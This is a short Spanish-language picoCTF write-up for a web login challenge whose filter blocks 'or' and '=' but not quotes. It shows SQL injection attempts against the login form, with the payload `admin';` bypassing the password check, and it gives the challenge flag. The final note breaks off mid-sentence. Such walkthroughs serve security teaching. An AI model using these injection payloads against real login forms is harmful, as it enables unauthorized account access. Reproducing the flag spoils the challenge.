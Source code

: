 ## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/53751/` ([link](https://jupiter.challenges.picoctf.org/problem/53751/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:53751

## Pistas
- The password is being filtered.

## Solución
```
username: admin
password: admin
SQL query: SELECT * FROM users WHERE name='admin' AND password='admin'

# Login failed.


username: ' or 1=1;
password: admin
SQL query: SELECT * FROM users WHERE name='' or 1=1;' AND password='admin'

# SQLi detected.


username: admin';
password: admin
SQL query: SELECT * FROM users WHERE name='admin';' AND password='admin'

# Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_c34df170}
```

## Notas adicionales
- Se agregaron el or y el igual a la lista de palabras reservadas, pero las comillas no, por tanto podemos ejecutar 

## Referencias

